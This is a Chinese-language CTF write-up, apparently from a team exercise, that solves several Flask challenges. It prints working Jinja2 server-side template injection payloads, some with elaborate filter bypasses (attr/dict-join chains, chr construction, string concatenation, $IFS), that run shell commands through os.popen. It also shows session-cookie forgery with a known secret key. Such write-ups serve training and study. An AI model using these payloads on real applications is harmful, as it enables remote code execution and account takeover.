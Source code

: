 # zerohenry/ctf_flask

![image-20240411185520262](%E7%BA%A2%E5%B2%A9%E7%AC%AC%E4%BA%8C%E6%AC%A1%E5%87%BA%E9%A2%98%E4%BA%92%E6%89%93%E9%A2%98%E8%A7%A3.assets/image-20240411185520262.png)

给出这个页面，那么前往/zerohenry页面查看，并用id作为参数

![image-20240411185553857](%E7%BA%A2%E5%B2%A9%E7%AC%AC%E4%BA%8C%E6%AC%A1%E5%87%BA%E9%A2%98%E4%BA%92%E6%89%93%E9%A2%98%E8%A7%A3.assets/image-20240411185553857.png)

ssti，那么先测试哪些符号被过滤了，我测出来的有：

单引号、双引号、中括号、双大括号、request、args

先把想要执行的命令写出来，再去进行修改，由于单双引号和request被过滤，所以我想到的就是使用变量

```py
目标：
{{lipsum|attr("__globals__")|attr("__getitem__")("os")|attr("popen")("cat /flag")|attr("read")()}}
```

```py
{%set globals=dict(__globals__=a)|join%}
{%set getitem=dict(__getitem__=a)|join%} 
{%set os=dict(os=a)|join%} 
{%set popen=dict(popen=a)|join%} 
{%set kg=(lipsum|string|list)|attr(getitem)(9)%} 
{%set cmd=(dict(cat=a)|join,kg,dict(flag=a)|join)|join%}
{%set read=dict(read=a)|join%}
{%set res=lipsum|attr(globals)|attr(getitem)(os)|attr(popen)(cmd)|attr(read)()%}
{%print(res)%}
这个payload行不通，因为在cmd那里少了一个/，而这个斜杆我不知道如何获取，所以采取另一种方式，使用chr，而这个chr函数也需要我们去获取
目标：
(lipsum|attr("__globals__"))|attr("__builtins__")|attr(get)(chr)
构造：
{%set chr=dict(chr=a)|join%}
{%set get=dict(get=a)|join%}
{%set builtins=dict(__builtins__=a)|join%}
{%set char=(lipsum|attr(globals))|attr(get)(builtins)|attr(get)(chr)%}
```

```py
最终POC:
{%set globals=dict(__globals__=a)|join%}
{%set getitem=dict(__getitem__=a)|join%} 
{%set os=dict(os=a)|join%} 
{%set popen=dict(popen=a)|join%} 
{%set kg=(lipsum|string|list)|attr(getitem)(9)%}
{%set chr=dict(chr=a)|join%}
{%set get=dict(get=a)|join%}
{%set builtins=dict(__builtins__=a)|join%}
{%set char=(lipsum|attr(globals))|attr(get)(builtins)|attr(get)(chr)%} 
{%set cmd=(dict(cat=a)|join,kg,char(47),dict(flag=a)|join)|join%}
{%set read=dict(read=a)|join%}
{%set res=lipsum|attr(globals)|attr(getitem)(os)|attr(popen)(cmd)|attr(read)()%}
{%print(res)%}
```

![image-20240411210346096](%E7%BA%A2%E5%B2%A9%E7%AC%AC%E4%BA%8C%E6%AC%A1%E5%87%BA%E9%A2%98%E4%BA%92%E6%89%93%E9%A2%98%E8%A7%A3.assets/image-20240411210346096.png)

# asahisuki/flask-app

首先看源码得到一个信息就是，给出了key的值是noctchill，应该是secret_key，可以用来进行session伪造

![image-20240413170915093](%E7%BA%A2%E5%B2%A9%E7%AC%AC%E4%BA%8C%E6%AC%A1%E5%87%BA%E9%A2%98%E4%BA%92%E6%89%93%E9%A2%98%E8%A7%A3.assets/image-20240413170915093.png)

用户名密码都输出123，得到下面的页面

![image-20240413171024027](%E7%BA%A2%E5%B2%A9%E7%AC%AC%E4%BA%8C%E6%AC%A1%E5%87%BA%E9%A2%98%E4%BA%92%E6%89%93%E9%A2%98%E8%A7%A3.assets/image-20240413171024027.png)

用户名改成admin

![image-20240413171140885](%E7%BA%A2%E5%B2%A9%E7%AC%AC%E4%BA%8C%E6%AC%A1%E5%87%BA%E9%A2%98%E4%BA%92%E6%89%93%E9%A2%98%E8%A7%A3.assets/image-20240413171140885.png)

那用户名明确是admin了应该，login页面发现和主页面的session一致，应该从/dashboard页面入手，利用flask-session-cookie-manager工具进行session伪造

```shell
python3 flask_session_cookie_manager3.py decode -c "eyJ1c2VybmFtZSI6IjEyMyJ9.ZhpL-A.GMvEsB4FwO7dm_4zhE3oc7l4j2Y" -s "noctchill"
```

![image-20240413171430775](%E7%BA%A2%E5%B2%A9%E7%AC%AC%E4%BA%8C%E6%AC%A1%E5%87%BA%E9%A2%98%E4%BA%92%E6%89%93%E9%A2%98%E8%A7%A3.assets/image-20240413171430775.png)

得到当前的用户名

```shell
python3 flask_session_cookie_manager3.py encode -t "{'username': 'admin'}" -s "noctchill"
```

![image-20240413171509346](%E7%BA%A2%E5%B2%A9%E7%AC%AC%E4%BA%8C%E6%AC%A1%E5%87%BA%E9%A2%98%E4%BA%92%E6%89%93%E9%A2%98%E8%A7%A3.assets/image-20240413171509346.png)

得到伪造的session值，修改/dashboard页面的cookie，再刷新一下页面，来到第二关

![image-20240413171534372](%E7%BA%A2%E5%B2%A9%E7%AC%AC%E4%BA%8C%E6%AC%A1%E5%87%BA%E9%A2%98%E4%BA%92%E6%89%93%E9%A2%98%E8%A7%A3.assets/image-20240413171534372.png)

![image-20240413171609560](%E7%BA%A2%E5%B2%A9%E7%AC%AC%E4%BA%8C%E6%AC%A1%E5%87%BA%E9%A2%98%E4%BA%92%E6%89%93%E9%A2%98%E8%A7%A3.assets/image-20240413171609560.png)

查看源码，再加上主页面回显admin，得知参数为param，那么开始SSTI

![image-20240413171634028](%E7%BA%A2%E5%B2%A9%E7%AC%AC%E4%BA%8C%E6%AC%A1%E5%87%BA%E9%A2%98%E4%BA%92%E6%89%93%E9%A2%98%E8%A7%A3.assets/image-20240413171634028.png)

![image-20240413171651072](%E7%BA%A2%E5%B2%A9%E7%AC%AC%E4%BA%8C%E6%AC%A1%E5%87%BA%E9%A2%98%E4%BA%92%E6%89%93%E9%A2%98%E8%A7%A3.assets/image-20240413171651072.png)

发现过滤了中括号和单引号，双引号没被过滤，那就用双引号，得到这个玩意，应该是一个稀奇古怪的加密方式，社会主义核心价值观编码，得到flag{輝かせよう、アイドルのすべて}

```py
POC:
{{().__class__.__base__.__subclasses__().__getitem__(140).__init__.__globals__.__getitem__("popen")("cat flag").read()}}
```

> ### 公正公正公正诚信文明公正民主公正法治法治诚信民主友善爱国爱国友善平等诚信文明敬业友善法治友善爱国和谐爱国民主爱国友善平等诚信自由和谐爱国民主敬业诚信民主友善爱国和谐爱国文明爱国爱国友善爱国和谐爱国民主爱国公正诚信自由和谐爱国富强爱国民主诚信自由和谐爱国文明友善自由文明友善爱国和谐爱国文明诚信富强自由友善爱国和谐爱国和谐爱国敬业诚信自由和谐爱国和谐友善自由友善平等友善爱国和谐爱国民主诚信富强友善爱国诚信自由和谐爱国民主敬业敬业诚信自由和谐爱国民主友善平等敬业友善爱国和谐爱国民主友善自由公正法治友善法治

# quarter77/flask-2ss:latest

查看源码得到参数是?Taskmaster，先检查哪些被过滤掉了，应该是过滤了很多关键字，还有一些字符，比如管道符|，然后u00被过滤无法使用unicode编码绕过，+号，~未被过滤，但是{%set x=“__cla”%}{%set y=“ss\_\_”%}{{()[x~y]}}依旧绕不过，set，%，双引号都没被过滤，不知道为啥不行，这题也就卡住了

# yuccun/ssti

进入页面查看源代码，没发现啥，主页面应该是过滤的关键字，没给参数，然后尝试自己写了个?a={{7*7}}，成功回显49，那么开始注入

发现可以使用{{()['\_\_cla'+'ss\_\_']}}来绕过关键字过滤，那么直接构造payload

```py
POC:
http://172.31.130.66:8009?a={{config['__cl'+'ass__']['__in'+'it__']['__glo'+'bals__']['os']['po'+'pen']('ls')['read']()}}
```

![image-20240413182109514](%E7%BA%A2%E5%B2%A9%E7%AC%AC%E4%BA%8C%E6%AC%A1%E5%87%BA%E9%A2%98%E4%BA%92%E6%89%93%E9%A2%98%E8%A7%A3.assets/image-20240413182109514.png)

想直接cat，但是好像有空格的命令执行不了，使用$IFS绕过

```py
http://172.31.130.66:8009?a={{config['__cl'+'ass__']['__in'+'it__']['__glo'+'bals__']['os']['po'+'pen']('cat$IFS/flag.txt')['read']()}}
```

![image-20240413182950133](%E7%BA%A2%E5%B2%A9%E7%AC%AC%E4%BA%8C%E6%AC%A1%E5%87%BA%E9%A2%98%E4%BA%92%E6%89%93%E9%A2%98%E8%A7%A3.assets/image-20240413182950133.png)

# ar1s0/first_try:ezflask

这题把过滤的东西都放在页面上了，class被过滤就用+号能绕过，数字过滤，那么就不用数字了

```py
POC:
http://172.31.130.66:8010/?name={{config['__cl'+'ass__'].__init__.__globals__['os']['popen']('cat oh_you_find_me.txt').read()}}
```

![image-20240413184014071](%E7%BA%A2%E5%B2%A9%E7%AC%AC%E4%BA%8C%E6%AC%A1%E5%87%BA%E9%A2%98%E4%BA%92%E6%89%93%E9%A2%98%E8%A7%A3.assets/image-20240413184014071.png)
